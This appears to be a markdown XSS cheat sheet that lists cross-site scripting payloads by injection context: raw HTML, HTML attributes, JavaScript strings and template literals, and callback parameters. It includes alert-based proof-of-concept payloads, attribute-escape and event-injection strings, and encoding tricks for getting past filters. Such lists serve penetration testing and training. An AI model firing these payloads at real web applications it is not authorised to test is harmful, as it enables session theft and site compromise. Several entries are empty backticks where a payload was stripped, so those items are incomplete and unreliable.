

### **Raw HTML Injection (Context-Based Injection)**

1. Create New HTML Tags:
	You can create new tags ``
2. Image Payload: 
	``
3. SVG Payload: 
	`<svg onload=alert('XSS')>`
4. Iframe Payload: 
	`<iframe src="javascript:alert(1)"></iframe>`
5. Event Handler: 
	``

### **Inside HTML Attributes (Context-Based Injection)**

1. Escape to Raw HTML:
	Try to escape out of the attribute context using `">`.
2. Inject New Events/Attributes:
	Inject new events or attributes that support JavaScript execution.
3. Bypass Protections:
	Use various encoding techniques to bypass filters and protections.

#### Example Payloads:

1. Attribute Escape: 
	`">`
2. Event Injection: 
	`" autofocus onfocus=alert(1) x="`
3. Protocol Injection: 
	`href="javascript:alert(1)"`
4. HTML Entity Encoding: 
	`<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>`
5. Unicode Encoding: 
``

### **Inside JavaScript Code (Context-Based Injection)**

1. Escape the Tag: 
	Inject `</script>` to escape the script context.
3. Escape String Context:
	Use techniques to break out of string literals and execute arbitrary JS code.
5. Template Literals:
	Utilize `${ ... }` syntax to inject JS expressions inside template literals.
7. Bypass Protections:
	Use various encoding methods to bypass protections.

#### Example Payloads:

1. Escape Script Tag: 
	`</script>`
2. Escape String Context: 
	`'-alert(document.domain)-'`
3. Template Literals: 
	`${alert(1)}`
4. Unicode Encoding: 
	``

### **JavaScript Function Execution**

1. Function Parameter Injection:
	Indicate the name of the function to execute via a parameter, e.g., `?callback=alert(1)`.
2. DOM XSS Exploitation:
	Pay attention to how your input is controlled and if it is used by any sink functions.

### **Reflection Scenarios (Debugging Client-Side JS)**

1. Intermediately Reflected:
	If the value of a parameter or path is reflected on the web page, you could exploit Reflected XSS.
2. Stored and Reflected:
	If a value controlled by you is saved on the server and reflected every time you access a page, you could exploit Stored XSS.
3. Accessed via JS:
	If a value controlled by you is accessed using JavaScript, you could exploit DOM XSS.

### **Contexts for XSS Exploits (Debugging Client-Side JS)**

1. Raw HTML:
	Reflecting input in raw HTML allows you to use tags like ``, `<iframe>`, `<svg>`, `</x></svg>`.
4. Unicode and HTML Encoding:
	Use Unicode or HTML entities to obfuscate payloads (e.g., `\u0061lert(1)`, `&apos;-alert(1)-&apos;`).

[XSS Training and Testing Platform](https://xss-game.appspot.com/)
